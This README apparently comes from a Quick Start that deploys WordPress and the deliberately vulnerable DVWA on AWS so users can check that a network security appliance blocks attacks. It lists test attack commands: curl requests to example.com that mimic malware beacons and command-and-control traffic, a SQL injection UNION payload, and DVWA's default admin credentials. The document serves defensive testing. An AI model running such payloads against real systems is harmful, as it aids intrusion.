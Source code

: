# quickstart-network-security-edge-deployment
## Network Security Edge Deployment in WordPress High Availability DVWA environment on AWS Cloud

Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment. 

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Cloud One Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:
### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :--------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |

### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your CloudOne Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the CloudOne console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Perform IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                   |
| :--------- | :------------------------------------------------------------ |
| 25492      | curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88 |
| 34738      | curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'|
| 38451      | curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------|
| China  | curl https://baidu.com |
| Russia | curl https://mail.ru   |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be http://<DVWAPublicIP>
2. Login to Web Application using following default credentials
    Username: admin
    Password: password
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                   |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel<br />2. Enter "?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit" in "User ID" text box and hit submit |
| 12365      | curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'|
